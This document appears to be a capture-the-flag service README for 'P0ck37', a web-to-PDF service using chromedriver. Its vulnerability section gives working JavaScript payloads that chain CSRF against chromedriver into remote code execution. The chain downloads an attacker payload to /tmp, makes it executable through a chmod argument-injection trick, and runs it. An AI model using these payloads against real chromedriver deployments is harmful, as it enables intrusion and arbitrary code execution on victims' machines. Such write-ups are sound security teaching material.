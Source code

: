 # P0ck37

## Description


P0ck37 is a service that allows downloading web pages to pdf files, very similar to [Pocket](https://getpocket.com/).
The service consists of two components: the web application and chromedriver service. The web application used chromedriver service to convert web pages to pdfs using a chrome web browser.

## Architecture

The only known option to configure chromedriver to handle remote requests from the application is by using `--whitelisted-ips=` option. But this option is known to be vulnerable to the CSRF attack via DNS rebinding.

To not use this option there was written a small wrapper on Go that proxies all requests to local chromedriver.


## Flags

Flags are pdf files stored in the directory `/data`.

## Vulns

The wrapper for the chromedriver is vulnerable to the CSRF attack too. And it allows achieving a remote command execution via the running chromedriver.

The attack consists of the three steps:
0. Through the main functionality of the service ask chromedriver to open an attacker's webpage in chrome.
1. Configure chrome to download files to a specific folder (`/tmp`).
2. Download a payload file to the location known to the attacker.
3. Make this payload file executable.
4. Execute it.

The initial step could be done by exploiting a CSRF attack. This could be done by the following POST request:
```
var caps = {
  "browserName": "chrome",
  "goog:chromeOptions": {
    "args":["--disable-web-security", "--no-sandbox", "--app=<URL of the next stage>"],
    "prefs": {
      "download.default_directory": "/tmp",
      "safebrowsing.enabled": "false"
    }
  }
};

var opts = {
  "desiredCapabilities": caps,
  "capabilities": {
    "firstMatch": [caps]
  }
};

var req = new XMLHttpRequest();
req.open('POST', 'http://127.0.0.1:4444/wd/hub/session');
req.setRequestHeader('Content-Type', 'text/plain');
req.send(JSON.stringify(opts));
</script>
```

After execution of this script chromedriver will run a new Google Chrome instance with disabled security settings (`--disable-web-security`). The location for downloading files will be `/tmp` (it is controlled by the `download.default_directory` setting). And this new browser instance will open another URL controlled by the attacker (`--app=<URL>` chromedriver option).

The next step is to download payload to the filesystem. This could be done by the following javascript:
```
link.href = '<URL of the payload>';
document.body.appendChild(link);

// This click will trigger an automatic file download to the /tmp directory
link.click();
document.body.removeChild(link);
delete link;
```

To make this payload file executable the attacker could ask chromedriver to execute `chmod` via the following POST request:
```
<script>
var req = new XMLHttpRequest();
req.open('POST', 'http://127.0.0.1:4444/wd/hub/session');
req.setRequestHeader('Content-Type', 'text/plain');

var opts = {
  "binary":"/bin/chmod",
  "args":["-w+x", "=", "--unknown"],
  "prefs": {"useAutomationExtension": false},
  "excludeSwitches":["disable-client-side-phishing-detection","enable-logging","log-level","password-store","allow-pre-commit-input","disable-background-networking","disable-default-apps","disable-hang-monitor","disable-popup-blocking","disable-prompt-on-repost","disable-sync","enable-automation","enable-blink-features","no-first-run","no-service-autorun","test-type","use-mock-keychain"]
};

var caps = {
  "desiredCapabilities":{
    "browserName":"chrome",
    "goog:chromeOptions": opts
  },
  "capabilities":{
    "firstMatch":[
      {
        "browserName":"chrome",
        "goog:chromeOptions": opts
      }
    ]
  }
};

req.send(JSON.stringify(caps));
</script>
```

The main trick here is the name of the payload: it should start with `--`. It will ask a `chmod` to ignore all other chromedriver options and successfully make the payload file executable.

And the last step is to execute the payload file. This could be done by the following POST request:
```
<script>
var req = new XMLHttpRequest();
req.open('POST', 'http://127.0.0.1:4444/wd/hub/session');
req.setRequestHeader('Content-Type', 'text/plain');

var opts = {
  "binary":"/tmp/--unknown"
};

var caps = {
  "desiredCapabilities":{
    "browserName":"chrome",
    "goog:chromeOptions": opts
  },
  "capabilities":{
    "firstMatch":[
      {
        "browserName":"chrome",
        "goog:chromeOptions": opts
      }
    ]
  }
};

req.send(JSON.stringify(caps));
</script>
```
